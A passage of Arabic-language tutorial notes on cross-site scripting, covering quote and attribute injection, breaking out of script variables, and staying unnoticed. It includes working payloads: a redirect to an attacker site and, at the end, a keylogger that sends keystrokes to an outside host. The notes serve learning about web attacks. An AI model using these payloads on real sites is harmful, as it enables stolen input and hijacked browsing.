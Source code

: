 - **لماذا هذا مهم؟**:
  - الصحة النحوية تضمن أن الكود يُنفذ كما هو متوقع دون لفت الانتباه إلى الثغرة.
  - إذا تسبب الحقن في كسر الصفحة، قد يلاحظ الموقع المشكلة ويصلح الثغرة قبل استغلالها.

---

### **ملخص المواضيع**
1. **حدود استخدام علامات HTML**: المواقع غالبًا تمنع إدخال `<script>`, مما يتطلب بدائل مثل علامات الاقتباس.
2. **حقن علامات الاقتباس**: استخدام `'` أو `"` لتغيير بنية الكود وإدخال JavaScript.
3. **تأثير الحقن**: يعتمد على السياق (HTML، JavaScript، أو نص عادي). الحقن في `<script>` أكثر خطورة.
4. **حقن في سمات HTML**: استغلال `value` في `<input>` باستخدام `onfocus` و`autofocus` لتنفيذ كود تلقائي.
5. **قيود `autofocus` و`onfocus`**: لا يعملان على الحقول المخفية، وقد يتأثران بوجود حقول متعددة مع `autofocus`.
6. **حقن في متغيرات JavaScript**: إغلاق المتغير باستخدام `'` و`;` لإضافة كود جديد يُنفذ تلقائيًا.
7. **الصحة النحوية**: الكود يجب أن يكون خاليًا من الأخطاء ليعمل، وإلا قد يتوقف التنفيذ أو يكتشف الموقع الثغرة.

---

### **أمثلة إضافية لتوضيح المواضيع**
1. **حقن في سمة أخرى**:
   - إدخال: `hacker" onmouseover=alert('XSS') "`
   - الكود: `<input value="hacker" onmouseover=alert('XSS') "">`
   - التنفيذ: عند تمرير الفأرة فوق الحقل، تظهر نافذة منبثقة تقول "XSS".
2. **حقن في JavaScript مع إعادة توجيه**:
   - إدخال: `hacker';document.location='http://evil.com';'`
   - الكود: `<script> var name = 'hacker';document.location='http://evil.com';''; </script>`
   - التنفيذ: يُعاد توجيه المستخدم إلى موقع ضار.
3. **حقن غير ناجح بسبب التصفية**:
   - إدخال: `hacker" onfocus=alert('XSS') "`
   - إذا قام الموقع بتحويل `"` إلى `&quot;`, الكود الناتج:
     ```html
     <input value="hacker&quot; onfocus=alert('XSS') &quot;">
     ```
     هذا لن يعمل لأن `"` لم تُغلق السمة.

---


## **Advanced XSS Payloads**
{  #XSS_Idea_for_script_tag  / #XSS_other_idea}
#### **1. Keylogging**

```html
<script>  
  document.addEventListener('keypress', (e) => {  
    fetch('https://hacker.com/log?key=' + e.key);  
  });  
</script>  
```
